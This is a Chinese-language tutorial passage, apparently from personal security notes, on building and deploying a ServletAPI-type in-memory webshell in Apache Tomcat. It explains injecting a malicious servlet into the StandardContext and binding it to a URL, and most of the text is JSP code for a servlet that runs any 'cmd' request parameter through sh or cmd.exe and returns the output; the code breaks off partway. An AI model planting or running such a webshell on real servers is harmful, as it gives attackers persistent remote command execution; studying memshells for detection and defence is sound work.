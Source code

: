 [安装Tomcat](../../../../../Language/Java/Java.md#tomcat安装) -> [配置Tomcat](../../../../../Language/Java/Java.md#tomcat配置)

---

### 编写与部署ServletAPI型内存马

在 Tomcat 的 `webapps` 目录下, 常见一个新的子目录, 例如 `java-memshell-tomcat-servletapi`

Tomcat 会自动部署这个应用, 可以通过 `http://localhost:8080/java-memshell-tomcat-servletapi` 访问此应用

![image-20240911143708373](http://cdn.ayusummer233.top/DailyNotes/202409111437463.png)

---

下面的代码先是创建了一个恶意的servlet，然后获取当前的StandardContext，然后将恶意servlet封装成wrapper添加到StandardContext的children当中，最后添加ServletMapping将访问的URL和wrapper进行绑定。

```java
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            // 下面这行中的 System 语句在 Linux Docker 容器中会报错, 编译都过不了，在Windows上可以正常解析
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
```